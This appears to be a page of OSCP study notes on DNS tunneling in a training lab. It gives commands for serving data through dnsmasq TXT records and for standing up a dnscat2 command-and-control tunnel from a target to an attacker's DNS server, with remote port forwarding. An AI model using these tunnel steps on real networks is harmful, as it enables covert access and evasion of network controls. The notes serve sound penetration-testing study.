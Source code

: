 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/10-port-redirection-and-tunneling/4-dns-tunneling/"}
---
```


-------
## Manual DNS TXT Record Infiltration with dnsmasq:
1. Edit 'dnsmasq_txt.conf' on controlled dnsmasq server. Example:
```
# TXT record
txt-record=www.feline.corp,here's something useful!
txt-record=www.feline.corp,here's something else less useful.
```
2. Start dnsmaq:
```
sudo dnsmasq -C dnsmasq_txt.conf -d
```
3. Check that DNS requests are properly routed on target:
```
resolvectl status
```
4. Run a TXT resolution from the target to the server:
```
nslookup -type=txt www.feline.corp
```

--------------
## DNS Tunneling with dnscat2:
1. Start dnscat2-server on your authorative DNS server:
```
dnscat2-server <domain>
```
2. Transfer the dnscat binary to the target from: https://github.com/iagox86/dnscat2
3. Start the clients and connect them:
```
./dnscat --secret=<secret> <domain>
```
4. Enter your initiated window from the server:
```
#List active windows:
windows

#Enter the window:
window -i 1
```
5. Set up remote port forwarding tunnel:
```
listen 0.0.0.0:2345 <outip>:<outport>
```
6. Use tunnel with server port and ip = win!

